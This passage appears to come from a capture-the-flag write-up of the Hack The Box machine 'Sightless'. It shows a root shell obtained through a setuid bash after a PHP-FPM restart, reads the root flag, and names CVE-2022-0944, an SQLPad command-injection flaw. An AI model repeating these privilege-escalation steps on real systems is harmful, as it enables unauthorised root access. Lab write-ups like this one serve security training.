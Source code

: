 ![php-fpm](../assets/img/posts/htb-sightless/froxlor-php-fpm.png)

After restarting the PHP-FPM service, my code is executed and I can get a root shell:
```bash
michael@sightless:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
6307f0104d6709cd54e1ab3--snip--
```

## Vulnerabilities Identified

1. **Remote Code Execution (CVE-2022-0944)**
   - SQLPad 6.10.0 RCE vulnerability
   - CWE-78: OS Command Injection
